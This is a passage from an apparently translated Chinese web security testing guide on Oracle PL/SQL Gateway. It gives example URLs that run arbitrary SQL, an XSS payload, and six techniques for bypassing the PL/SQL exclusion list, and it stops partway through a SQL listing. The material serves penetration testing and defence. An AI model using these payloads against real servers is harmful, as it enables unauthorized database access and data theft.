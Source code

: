 ##### 访问数据库中任意的PL/SQL包
可以利用数据库服务器默认安装在PL/SQL包中利用漏洞。如何执行此操作取决于PL/SQL网关的版本。在PL/SQL网关的早期版本中，没有什么可以阻止攻击者访问数据库服务器中的任意PL / SQL程序包。我们之前提到了该OWA_UTIL程序包。这可以用于运行任意SQL查询：

```http://www.example.com/pls/dad/OWA_UTIL.CELLSPRINT? P_THEQUERY=SELECT+USERNAME+FROM+ALL_USERS```

跨站点脚本攻击可以通过HTP软件包发起：

```http://www.example.com/pls/dad/HTP.PRINT?CBUF=<script>alert('XSS')</script>```

显然这很危险，因此Oracle引入了PLSQL排除列表以防止直接访问此类危险过程。禁止的项目包括以```SYS.*```、```DBMS_*```开头的任何请求，禁止任何含有```HTP.*```或```OWA*```的请求。然后绕过这些黑名单是有可能的。此外，排除列表不会阻止访问```CTXSYS```和```MDSYS```模式或其他模式中的程序包，因此可以利用以下程序包中的缺陷：

```http://www.example.com/pls/dad/CXTSYS.DRILOAD.VALIDATE_STMT?SQLSTMT=SELECT+1+FROM+DUAL```

如果数据库服务器受上述漏洞的影响，则将返回空白的HTML页面，响应为200 OK（CVE-2006-0265），这证明了当前所用的技术为oracle的pl/sql 服务器。

##### 绕过 PL/SQL 排除列表（黑名单）
甲骨文试图修复绕过排除列表缺陷的次数令人难以置信。Oracle产生的每个补丁都成为新旁路技术的牺牲品。可以参考：https://seclists.org/fulldisclosure/2006/Feb/11

###### 方法1
在Oracle首次引入PL / SQL排除列表，防止攻击者访问任意PL / SQL程序包时，可以通过在模式/程序包名称前添加十六进制编码的换行符或空格或制表符来略过它：
```
http://www.example.com/pls/dad/%0ASYS.PACKAGE.PROC
http://www.example.com/pls/dad/%20SYS.PACKAGE.PROC
http://www.example.com/pls/dad/%09SYS.PACKAGE.PROC
```

###### 方法2
对于PL/SQL网关的新版本应用，攻击者可以在schema/package名称前添加标签来绕过黑名单。在PL/SQL中，指向代码行的标签的形式如下（代码可由GOTO语句跳转）：```<<NAME>>```

```http://www.example.com/pls/dad/<<LABEL>>SYS.PACKAGE.PROC```

###### 方法3
只需将 schema/package 的名称放在双引号中，即可使攻击者绕过排除列表。注意，这在Oracle应用服务器10g是行不通的，因为oracle 10g 会在发送请求到数据库服务器前，把用户的请求转换成小写字符串，而引号字符是大小写敏感的，这样```SYS```和```sys```就是两个不同的字符串，这会导致404报错。较10g早期的版本可以使用如下的请求url:
```http://www.example.com/pls/dad/"SYS".PACKAGE.PROC```

###### 方法4
取决于web服务器和数据库服务器使用的字符集，一些字符可以被转义。例如数据库服务器遇到```ÿ```可能转换为```y```。又例如，经常转换为大写字母```Y```的是Macron字符```0xAF```。下面是一个可能使攻击者绕过排除列表的例子：
```
http://www.example.com/pls/dad/S%FFS.PACKAGE.PROC 
http://www.example.com/pls/dad/S%AFS.PACKAGE.PROC
```
###### 方法5
一些PL/SQL网关的版本可以使用反斜杠```0x5c```绕过，例如：
```http://www.example.com/pls/dad/%5CSYS.PACKAGE.PROC```

###### 方法6

最复杂的绕过方法使最近oracle打补丁防止的绕过方法。例如我们的url请求如下：```http://www.example.com/pls/dad/foo.bar?xyz=123```，这台应用服务器可能在数据库服务器上执行下列代码：

```sql
declare
    rc__ number;
    start_time__ binary_integer;
    simple_list__ owa_util.vc_arr;
    complex_list__ owa_util.vc_arr;
begin
    start_time__ := dbms_utility.get_time;
    owa.init_cgi_env(:n__,:nm__,:v__);
    htp.HTBUF_LEN := 255;
```
